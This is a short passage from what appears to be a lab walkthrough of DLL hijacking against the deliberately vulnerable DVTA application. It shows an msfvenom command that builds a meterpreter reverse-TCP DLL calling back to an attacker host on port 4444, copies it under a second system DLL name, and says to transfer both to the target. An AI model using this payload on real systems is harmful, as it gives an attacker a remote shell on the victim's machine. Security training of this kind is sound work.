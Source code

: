 ![alt text](data/image-74.png)

- Now let’s jump to kali machine and build a malicious `dll` file using the cmd:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.1xx.xxx.133 LPORT=4444 -a x86 -f dll > SECUR32.dll`

- Duplicate the same DLL to another named DLL using cmd:

`cp SECUR32.dll DWrite.dll`

![alt text](data/image-75.png)

- Now, transfer the dll files to machine running dvta application, using Apache or python server.
